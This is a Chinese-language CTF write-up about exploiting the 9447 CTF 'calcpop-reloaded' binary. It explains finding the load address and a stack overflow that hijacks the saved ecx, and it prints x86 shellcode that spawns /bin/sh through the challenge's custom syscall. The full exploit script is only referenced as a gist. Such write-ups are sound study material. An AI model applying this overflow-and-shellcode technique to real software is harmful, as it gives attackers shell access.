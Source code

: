 ```yaml
---
title: 'Writeup-9447 CTF: calcpop-reloaded'
layout: post
categories: blog
tags: [Hack, CTF, Writeup, Exploitation]
share: true
---
```


*从这一题开始，9447 加上了 POW, 其实只要爆破就可以，这里就不放脚本了。（关于 POW, 有个叫 hashcash 的东西，挺有意思的）*

这道题我没有在比赛期间做出来。当时完全没有逆向 load address 未知的二进制的经验，什么都干不了。后来简单看了别人的 writeup，在只知道逆向方法的情况下重新做出了这题。前后大概还是花了七八小时（我好渣...），硬着头皮写篇 writeup 记录一下。

### Load Address
找 load address 的过程大概是先用 radare 打开，然后翻反汇编代码，可以找到`mov eax, 0x1007a7`这类代码，大概可以猜出 load address 在 0x100000.

用 IDA 打开，填好 load offset, 开始调试。可以猜出 main 函数(?)的位置大概在 0x1008bc.

### Overflow
接下来找溢出点。可以看到 0x001008EE 处调用了输入函数，分配栈空间是 0x98, 但是传递了一个大概是 size 的参数，值为 0x100. 存在溢出。

这题和 calcpop 有一点不同的是，calcpop 中输入 exit 会直接退出 main 函数，这题输入 exit 会调用`shutdown()`之类的函数，没细看，效果就是不会再有输出了。这道题退出 main 函数的方法是，正确输入，让计算结果为 201527, 程序会输出彩蛋信息，然后退出 main 函数。

接下来就是怎么溢出了，先看 main 函数入口和出口处的栈变化：
{% highlight asm %}
# entry:
lea     ecx, [esp-4]
and     esp, 0FFFFFFF0h
push    dword ptr [ecx-4]
push    ebp
mov     ebp, esp
push    edi
push    esi
push    ebx
push    ecx

# exit:
lea     esp, [ebp-10h]
xor     eax, eax
pop     ecx
pop     ebx
pop     esi
pop     edi
pop     ebp
lea     esp, [ecx-4]
retn
{% endhighlight %}

溢出到保存 ecx 的位置，使 ecx - 4 指向存有 shellcode 地址的栈位置，然后 ret 就能跳转到 shellcode.

### Shellcode
这题怎么写 shellcode 也是一个难点，因为系统是 9447 写的，不能直接用 execv 系统调用。所幸的是本题的系统调用功能都是能从一些字符串上看出来的。比如`read(%d %x %d)`, `write(%d %x %d)`之类。strings 一下可以看到`spawn(%x %x %d)`，我就猜测这个是类似 execv 的系统调用。可是参数不明确，特别是第三个参数。试了几次，发现用`spawn("/bin/sh", "/bin/sh", 1)`这样的参数是可以成功的，第三个参数 1 具体是什么含义，我也没搞明白。

用 pwntool 生成的 shellcode 如下:
{% highlight asm %}
# push '/bin/sh\x00'
push 0x1010101
xor dword ptr [esp], 0x169722e
push 0x6e69622f
mov edi, esp

push 0x1
push edi
push edi
push 0xdeadbeef  # junk
mov ebx, 302125832
xor ebx, 0x12121212
call ebx  # spawn(%x, %x, %d)
{% endhighlight %}

### exp.py

可以用 redos 中的 level1 本地调试。

{% gist cubarco/b4aee1ac22f1b3039d30 %}

